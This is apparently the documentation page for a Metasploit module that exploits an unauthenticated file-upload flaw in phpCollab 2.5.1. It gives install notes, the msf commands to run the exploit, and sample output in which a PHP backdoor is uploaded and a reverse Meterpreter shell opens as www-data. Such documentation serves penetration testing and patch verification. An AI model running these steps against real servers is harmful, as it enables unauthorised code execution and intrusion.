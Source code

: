 ## Vulnerable Application

This module exploits a file upload vulnerability in phpCollab 2.5.1
which could be abused to allow unauthenticated users to execute arbitrary code
under the context of the web server user.

The exploit has been tested on Ubuntu 16.04.3 64-bit

### Vulnerable Application Installation

You can download the vulnerable application from the [exploit-db page](https://www.exploit-db.com/apps/dda41c5b541d7adc0b50b1fcf3bf7519-phpCollab-v2.5.1.zip).

Follow the install instructions from the phpCollab website:
http://phpcollab.com/documentation/install.htm.

The phpCollab application is only compatible with php5.

## Verification Steps

```
msf > use exploit/unix/webapp/phpcollab_upload_exec
msf exploit(phpcollab_upload_exec) > set RHOST [IP Address] 
msf exploit(phpcollab_upload_exec) > set TARGETURI [Installation Directory] 
msf exploit(phpcollab_upload_exec) > exploit 

## Sample Output

[*] Started reverse TCP handler on 192.168.246.129:4444 
[*] Uploading backdoor file: 1.mEgUkeNnxP.php
[+] Backdoor successfully created.
[*] Triggering the exploit...
[*] Sending stage (37543 bytes) to 192.168.246.144
[*] Meterpreter session 1 opened (192.168.246.129:4444 -> 192.168.246.144:49264) at 2017-12-20 15:44:36 -0500
[+] Deleted 1.mEgUkeNnxP.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > pwd
/var/www/html/phpcollab/logos_clients
meterpreter >

```


